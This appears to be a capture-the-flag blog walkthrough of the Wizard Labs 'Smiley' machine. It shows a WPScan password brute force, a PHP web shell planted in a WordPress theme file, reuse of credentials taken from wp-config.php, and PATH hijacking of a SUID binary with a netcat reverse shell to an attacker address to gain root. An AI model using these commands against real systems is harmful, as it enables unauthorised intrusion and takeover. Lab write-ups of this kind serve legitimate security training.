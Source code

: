```yaml
---
id: 813
title: 'Wizard Labs &#8211; Smiley'
date: 2019-04-26T12:22:07+01:00
author: rowbot
layout: post
guid: http://offsecnewbie.com/?p=813
permalink: /2019/04/26/wizard-labs-smiley/
image: /wp-content/uploads/2019/04/image-37-176x250.png
categories:
  - Wizard Labs
tags:
  - SUID
  - Wordpress
---
```

<div class="wp-block-image">
  <figure class="aligncenter"><img src="https://i2.wp.com/offsecnewbie.com/wp-content/uploads/2019/04/image-37.png?w=680" alt="" class="wp-image-814" srcset="https://i2.wp.com/offsecnewbie.com/wp-content/uploads/2019/04/image-37.png?w=176 176w, https://i2.wp.com/offsecnewbie.com/wp-content/uploads/2019/04/image-37.png?resize=159%2C300 159w" sizes="(max-width: 176px) 100vw, 176px" data-recalc-dims="1" /></figure>
</div>

Even though the difficulty of this machine was 3/10 it took me quite a while to complete it. 

<div class="wp-block-image">
  <figure class="aligncenter"><img src="https://i0.wp.com/offsecnewbie.com/wp-content/uploads/2019/04/image-38.png?w=680" alt="" class="wp-image-815" srcset="https://i0.wp.com/offsecnewbie.com/wp-content/uploads/2019/04/image-38.png?w=874 874w, https://i0.wp.com/offsecnewbie.com/wp-content/uploads/2019/04/image-38.png?resize=300%2C93 300w, https://i0.wp.com/offsecnewbie.com/wp-content/uploads/2019/04/image-38.png?resize=768%2C238 768w" sizes="(max-width: 680px) 100vw, 680px" data-recalc-dims="1" /></figure>
</div>

nmap scan reveals a wordpress site running on port 80.

<div class="wp-block-image">
  <figure class="aligncenter"><img src="https://i0.wp.com/offsecnewbie.com/wp-content/uploads/2019/04/image-39.png?w=680" alt="" class="wp-image-816" srcset="https://i0.wp.com/offsecnewbie.com/wp-content/uploads/2019/04/image-39.png?w=821 821w, https://i0.wp.com/offsecnewbie.com/wp-content/uploads/2019/04/image-39.png?resize=300%2C185 300w, https://i0.wp.com/offsecnewbie.com/wp-content/uploads/2019/04/image-39.png?resize=768%2C473 768w" sizes="(max-width: 680px) 100vw, 680px" data-recalc-dims="1" /></figure>
</div>

After a lot of directory searching turned up with nothing. I only had a username &#8211; smiley. 

I forgot about the brute force method. You can use WPScan to brute force

<pre class="wp-block-preformatted">⚡  ~/Desktop/smiley <br />cat username  <br />smiley <br />wpscan --url http://10.1.1.42/ -P /usr/share/seclists/Passwords/darkweb2017-top10000.txt -U username  </pre>

Password found &#8211; music

<div class="wp-block-image">
  <figure class="aligncenter"><img src="https://i0.wp.com/offsecnewbie.com/wp-content/uploads/2019/04/image-40.png?w=680" alt="" class="wp-image-818" srcset="https://i0.wp.com/offsecnewbie.com/wp-content/uploads/2019/04/image-40.png?w=613 613w, https://i0.wp.com/offsecnewbie.com/wp-content/uploads/2019/04/image-40.png?resize=300%2C59 300w" sizes="(max-width: 613px) 100vw, 613px" data-recalc-dims="1" /></figure>
</div>

That took me the guts of 5 hours to get that far. I&#8217;ve made a mental note not to forget about brute forcing when nothing else turns up.

<div class="wp-block-image">
  <figure class="aligncenter"><img src="https://i1.wp.com/offsecnewbie.com/wp-content/uploads/2019/04/image-41.png?w=680" alt="" class="wp-image-819" srcset="https://i1.wp.com/offsecnewbie.com/wp-content/uploads/2019/04/image-41.png?w=411 411w, https://i1.wp.com/offsecnewbie.com/wp-content/uploads/2019/04/image-41.png?resize=290%2C300 290w" sizes="(max-width: 411px) 100vw, 411px" data-recalc-dims="1" /></figure>
</div>

I went to Plugins and Editor and added php code to index.php to see if I can get command execution 

<div class="wp-block-image">
  <figure class="aligncenter"><img src="https://i1.wp.com/offsecnewbie.com/wp-content/uploads/2019/04/image-42.png?fit=680%2C104" alt="" class="wp-image-820" srcset="https://i2.wp.com/offsecnewbie.com/wp-content/uploads/2019/04/image-42.png?w=1488 1488w, https://i2.wp.com/offsecnewbie.com/wp-content/uploads/2019/04/image-42.png?resize=300%2C46 300w, https://i2.wp.com/offsecnewbie.com/wp-content/uploads/2019/04/image-42.png?resize=768%2C117 768w, https://i2.wp.com/offsecnewbie.com/wp-content/uploads/2019/04/image-42.png?resize=1024%2C156 1024w, https://i2.wp.com/offsecnewbie.com/wp-content/uploads/2019/04/image-42.png?w=1360 1360w" sizes="(max-width: 680px) 100vw, 680px" /></figure>
</div>

<?php echo shell\_exec($\_GET[&#8216;cmd&#8217;]); ?> 

I activated the Hello Dolly plugin and refreshed the index page. I always view the source when I do this as it makes the output readable. 

<div class="wp-block-image">
  <figure class="aligncenter"><img src="https://i2.wp.com/offsecnewbie.com/wp-content/uploads/2019/04/image-43.png?w=680" alt="" class="wp-image-821" srcset="https://i2.wp.com/offsecnewbie.com/wp-content/uploads/2019/04/image-43.png?w=635 635w, https://i2.wp.com/offsecnewbie.com/wp-content/uploads/2019/04/image-43.png?resize=300%2C172 300w" sizes="(max-width: 635px) 100vw, 635px" data-recalc-dims="1" /></figure>
</div>

Otherwise it will look like this

<div class="wp-block-image">
  <figure class="aligncenter"><img src="https://i2.wp.com/offsecnewbie.com/wp-content/uploads/2019/04/image-44.png?w=680" alt="" class="wp-image-822" srcset="https://i2.wp.com/offsecnewbie.com/wp-content/uploads/2019/04/image-44.png?w=609 609w, https://i2.wp.com/offsecnewbie.com/wp-content/uploads/2019/04/image-44.png?resize=300%2C116 300w" sizes="(max-width: 609px) 100vw, 609px" data-recalc-dims="1" /></figure>
</div>

So I can get command execution. Now to get a nc reverse shell.

<div class="wp-block-image">
  <figure class="aligncenter"><img src="https://i2.wp.com/offsecnewbie.com/wp-content/uploads/2019/04/image-45.png?w=680" alt="" class="wp-image-823" srcset="https://i2.wp.com/offsecnewbie.com/wp-content/uploads/2019/04/image-45.png?w=476 476w, https://i2.wp.com/offsecnewbie.com/wp-content/uploads/2019/04/image-45.png?resize=300%2C62 300w" sizes="(max-width: 476px) 100vw, 476px" data-recalc-dims="1" /></figure>
</div>

<div class="wp-block-image">
  <figure class="aligncenter"><img src="https://i0.wp.com/offsecnewbie.com/wp-content/uploads/2019/04/image-46.png?w=680" alt="" class="wp-image-824" srcset="https://i0.wp.com/offsecnewbie.com/wp-content/uploads/2019/04/image-46.png?w=523 523w, https://i0.wp.com/offsecnewbie.com/wp-content/uploads/2019/04/image-46.png?resize=300%2C114 300w" sizes="(max-width: 523px) 100vw, 523px" data-recalc-dims="1" /></figure>
</div>

So I&#8217;m in as www-data but obviously can&#8217;t view user.txt as I&#8217;m not user mike

<pre>cd /home
$ ls
ls
mike
$ cd mike
cd mike
/bin/sh: 5: cd: can't cd to mike
</pre>

As the server is running wordpress I knew there would be a password stored in wp-config.php

<pre>// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define('DB_NAME', 'wpdatabase');

/** MySQL database username */
define('DB_USER', 'wpuser');

/** MySQL database password */
define('DB_PASSWORD', 'Il0veW0rdpress');

/** MySQL hostname */
define('DB_HOST', 'localhost');
</pre>

I&#8217;ll try to ssh using it and user mike and Il0veW0rdpress as the password 

<div class="wp-block-image">
  <figure class="aligncenter"><img src="https://i2.wp.com/offsecnewbie.com/wp-content/uploads/2019/04/image-47.png?w=680" alt="" class="wp-image-826" srcset="https://i2.wp.com/offsecnewbie.com/wp-content/uploads/2019/04/image-47.png?w=682 682w, https://i2.wp.com/offsecnewbie.com/wp-content/uploads/2019/04/image-47.png?resize=300%2C86 300w" sizes="(max-width: 680px) 100vw, 680px" data-recalc-dims="1" /></figure>
</div>

<pre>mike@smiley:~$ cat user.txt 
b075f6e221bbe611fafa9b7ae3688379
mike@smiley:~$ 
</pre>

I noticed that there is a file with SUID bit set in mike&#8217;s home directory

<pre>mike@smiley:~$ ls -la listwww 
-rwsr-xr-x 1 root root 7332 Dec 27 06:03 listwww
mike@smiley:~$ 
</pre>

When I run it it lists the contents of /var/www/html

<pre>mike@smiley:~$ ./listwww 
index.php    readme.html  suid.c	   wp-admin	       wp-comments-post.php  wp-config.php  wp-cron.php  wp-links-opml.php  wp-login.php  wp-settings.php  wp-trackback.php
license.txt  suid	  wp-activate.php  wp-blog-header.php  wp-config-sample.php  wp-content     wp-includes  wp-load.php	    wp-mail.php   wp-signup.php    xmlrpc.php
listing /var/www/html mike@smiley:~$ 
</pre>

Doing strings listwww reveals 

<pre>UWVS
[^_]
listing /var/www/html 
sleep 3
/bin/ls /var/www/html
;*2$"
GCC: (Debian 7.3.0-11) 7.3.0
</pre>

I opened the file in Ghidra and it decompiled the binary to reveal in main

<div class="wp-block-image">
  <figure class="aligncenter"><img src="https://i0.wp.com/offsecnewbie.com/wp-content/uploads/2019/04/image-48.png?w=680" alt="" class="wp-image-833" srcset="https://i0.wp.com/offsecnewbie.com/wp-content/uploads/2019/04/image-48.png?w=433 433w, https://i0.wp.com/offsecnewbie.com/wp-content/uploads/2019/04/image-48.png?resize=300%2C203 300w" sizes="(max-width: 433px) 100vw, 433px" data-recalc-dims="1" /></figure>
</div>

It looks like it says &#8220;listing /var/www/html&#8221; then sleeps for 3 seconds then does an ls on that directory. So I need to get this binary to run code which will give me root shell. Looking at the strings again I knew that as the ls command has a fully qualified path /bin/ls I could not take advantage of this. The sleep command however wasn&#8217;t fully qualified &#8211; it had just sleep. If it was it would have read /usr/bin/sleep.

So in order to run this I needed to change the PATH to /home/mike and put a sleep script in there which the listwww would hopefully run.

<pre>mike@smiley:~$ echo $PATH
/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
mike@smiley:~$ 
</pre>

<pre>mike@smiley:~$ export PATH=/home/mike/:$PATH
mike@smiley:~$ echo $PATH
/home/mike/:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
mike@smiley:~$ 
</pre>

I added a nc reverse shell to sleep. Ran the listwww binary again..

<pre>mike@smiley:~$ cat sleep 
nc -e /bin/sh 10.253.0.255 443
mike@smiley:~$ 
</pre>

and got a connection back! 

<pre><span style="background-color:#2E3436"> </span><span style="background-color:#2E3436"><font color="#C4A000">⚡ </font></span><span style="background-color:#3465A4"><font color="#2E3436"> ~/Desktop/smiley </font></span><font color="#3465A4"></font> <font color="#4E9A06">nc</font> -lnvp 443
listening on [any] 443 ...
connect to [10.253.0.255] from (UNKNOWN) [10.1.1.42] 40548
id
uid=0(root) gid=1000(mike) groups=1000(mike)
cat /root/root.txt
a16c33fc59fe0a3deecf6212b60f2b9b
</pre>